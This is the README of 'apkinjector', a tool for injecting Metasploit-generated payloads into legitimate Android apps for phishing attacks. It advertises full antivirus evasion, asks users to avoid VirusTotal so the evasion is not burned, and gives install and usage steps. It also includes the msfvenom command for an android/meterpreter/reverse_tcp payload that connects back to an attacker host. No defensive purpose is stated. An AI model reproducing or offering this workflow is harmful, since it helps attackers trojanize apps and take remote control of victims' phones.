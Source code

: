 # apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Success Rate:</b><br>
-100% AV Evasion to date (0/35 on nodistribute, confirmed on AVG and Kaspersky mobile)<br>
-~70% automatic injection<br>
-May require user input, or manually adding the invoke command. The output will explain what is needed.<br>
-If APKTool fails to decompile, or compile, then the injection will fail. On major apps like Facebook, Starbucks, etc you may find this to happen.<br>
<br>
<br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apkinjector \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=\<IP> LPORT=\<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>

